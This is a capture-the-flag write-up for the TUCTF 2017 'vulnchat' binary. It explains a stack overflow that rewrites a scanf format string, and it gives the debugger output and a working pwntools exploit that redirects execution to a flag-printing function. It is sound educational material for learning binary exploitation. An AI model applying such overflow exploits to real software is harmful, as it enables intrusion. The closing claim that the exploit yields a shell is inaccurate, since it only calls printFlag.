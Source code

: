 # tuctf 2017 vulnchat

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one.

Let's take a look at the binary:

![intro_data](pics/intro_data.png)


So we can see that we are dealing with a 32 bit elf binary. When we run it, it prompts us for two seperate inputs. The first is a username, and the second is a string that is supposed to make it trust us. Taking a look at the main function in Ghidra we see this:

![main](pics/main.png)

So we can see, the program essentially calls `scanf` twice. The input is first scanned into `name`, then into `password`. The format specifier is stored on the stack in the `fmtString` variable. We can see in the assembly code that it is initialized to `%30s` (it comes up as `s03%` because it's least endian) (we have to convert the data to a char sequence):

![fmt_str](pics/fmt_str.png)

So both times by default it will let us scan in 30 characters, which will let us scan in 30 bytes worth of data. Next we take a look at the stack layout in Ghidra:

![stack_layout](pics/stack_layout.png)

So we can see that `password` is stored at offset `-0x31`, `name` is stored at offset `-0x1d`, and `fmtString` is stored at `-0x9`. The `password` char array can hold `0x31 - 0x1d = 0x14` bytes. The `name` char array can hold `0x1d - 0x9 = 0x14` bytes worth of data too. Since we can scan in `30` bytes worth of data, this gives us a 10 byte overflow in both cases. With our given setup we won't be able to get code execution with either overflow alone. However with the first overflow (the one to `name`) we will be able to overwrite the value of `fmtString`. This will allow us to specify how much data the second `scanf` call will scan. With that we will be able to scan in more than enough data to overwrite the saved return address, and get code execution when the `ret` instruction executes. The saved return address is an instruction ptr, of the next instruction after the one that called the current function, so after the current function ends, it can return to the original function.

For what function to call, the `printFlag` function at `0x804856b` seems to be a good candidate. It just prints the context of the flag using `cat` (also to get the flag, we need to have a copy of `flag.txt` in the same directory as the binary):

![print_flag](pics/print_flag.png)

So let's take a look at how the memory is corrupted during the exploit. First I set a breakpoint for right after the second scanf call:

```
gef➤  b *0x8048639
Breakpoint 1 at 0x8048639
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
15935728: 75395128
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x0       
$ecx   : 0x1       
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffd030  →  0xffffd063  →  "%30s"
$ebp   : 0xffffd068  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x08048639  →  <main+175> add esp, 0x8
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd030│+0x0000: 0xffffd063  →  "%30s"     ← $esp
0xffffd034│+0x0004: 0xffffd03b  →  "75395128"
0xffffd038│+0x0008: 0x37049a10
0xffffd03c│+0x000c: "5395128"
0xffffd040│+0x0010: 0x00383231 ("128"?)
0xffffd044│+0x0014: 0xffffd104  →  0xffffd2b4  →  "/Hackery/pod/modules/bof_callfunction/tu17_vulncha[...]"
0xffffd048│+0x0018: 0xffffd10c  →  0xffffd2f2  →  "CLUTTER_IM_MODULE=xim"
0xffffd04c│+0x001c: 0x31e076a5
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048630 <main+166>       lea    eax, [ebp-0x5]
    0x8048633 <main+169>       push   eax
    0x8048634 <main+170>       call   0x8048460 <__isoc99_scanf@plt>
 →  0x8048639 <main+175>       add    esp, 0x8
    0x804863c <main+178>       push   0x80487ec
    0x8048641 <main+183>       call   0x8048410 <puts@plt>
    0x8048646 <main+188>       add    esp, 0x4
    0x8048649 <main+191>       mov    eax, ds:0x8049a60
    0x804864e <main+196>       push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x08048639 in main ()
gef➤  search-pattern 75395128
[+] Searching '75395128' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a160 - 0x804a168  →   "75395128"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd03b - 0xffffd043  →   "75395128"
gef➤  search-pattern %30s
[+] Searching '%30s' in memory
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
  0x80485c1 - 0x80485c5  →   "%30s[...]"
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
  0x80495c1 - 0x80495c5  →   "%30s[...]"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd063 - 0xffffd067  →   "%30s"
gef➤  x/14x 0xffffd03b
0xffffd03b:    0x39333537    0x38323135    0xffd10400    0xffd10cff
0xffffd04b:    0xe076a5ff    0x33393531    0x38323735    0x04866b00
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is `20` bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is `x86` is designed around `4` byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. However our char array (which can be a wide array of values) starts at `0xffffd03b`, so it messes up the alignment when we view the memory using it as a reference.

Also, we can figure out the offsets via looking at the ghidra offsets. We see `name` is at offset `-0x1d`, and `fmtString` is at offset `-0x9`. So with the input that starts at `name` after `0x14` (`0x1d - 0x9 = 0x14`) bytes, we'll reach `fmtString`. Also `password` is stored at offset `-0x31`, and since ghdira puts the stack offsets from the saved return address, it is `0x31` bytes away (I have seen this be wrong in some instances).

Putting it all together, we get the following exploit:
```
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print(target.recvuntil(b"username: "))

# Form the first payload to overwrite the scanf format string
payload0 = b""
payload0 += b"0"*0x14 # Fill up space to format string
payload0 += b"%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print(target.recvuntil(b"I know I can trust you?"))

# From the second payload to overwrite the return address
payload1 = b""
payload1 += b"1"*0x31 # Filler space to return address
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

When we run it:

![exploit_running](pics/exploit_running.png)

Just like that we got a shell!
